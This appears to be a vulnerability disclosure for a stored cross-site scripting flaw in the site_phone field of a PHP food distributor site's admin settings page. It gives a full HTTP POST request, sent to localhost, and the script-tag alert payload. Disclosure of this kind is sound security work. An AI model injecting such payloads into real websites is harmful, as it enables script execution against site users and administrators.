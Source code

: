 Cross-Site Scripting vulnerability in the `site_phone` parameter of the Site Settings functionality

```
/fooddis/admin/save_settings.php
```

Vendor Homepage:

```
https://code-projects.org/food-distributor-site-in-php-with-source-code/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP
```

Affected Page:

```
/fooddis/admin/save_settings.php
```

The `site_phone` parameter in the `save_settings.php` file of the Code-Projects Food Distributor System is vulnerable to XSS Injection. 

Proof of vulnerability:

<img width="1156" alt="image" src="https://github.com/user-attachments/assets/1d728608-515f-4441-bdb2-25ff8f823d26" />
Visit the homepage directly
<img width="872" alt="image" src="https://github.com/user-attachments/assets/bf5fc334-01d4-4bfb-a628-aaaacf9dc74e" />




Request:

```
POST /fooddis/admin/save_settings.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1798
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryreFhNSUjrctCcvq3
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/fooddis/admin/site_settings.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=b409c2d300348e8d3c7d564868ff9e2f
Connection: keep-alive

------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="site_name"

Food Website
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="site_title"

Food Website
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="site_keyword"

Site
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="site_desc"

Food Website, established in 2018, is a well known ethic food distributor in Nigeria. With previous experience in food technology and research, Lumidek Associates Ltd. is the market leader in serving high quality and health promoting food products across Nigeria.
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="google_code"

09tghjpo987hpnjkb
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="site_email"

info@fooddistributor.com
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="site_phone"

<script>alert('XSS')</script>
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="linkedin"

(+234)000 000 1353
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="facebook"

https://facebook.com
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="twitter"

CP
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="address"

142, Iju waterworks road, Agege, Lagos state.
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="city"

Eliozu road, off Airport road, Port Harcourt, Rivers state
------WebKitFormBoundaryreFhNSUjrctCcvq3
Content-Disposition: form-data; name="country"

Nigeria
------WebKitFormBoundaryreFhNSUjrctCcvq3--
```

payload

```
<script>alert('XSS')</script>
```

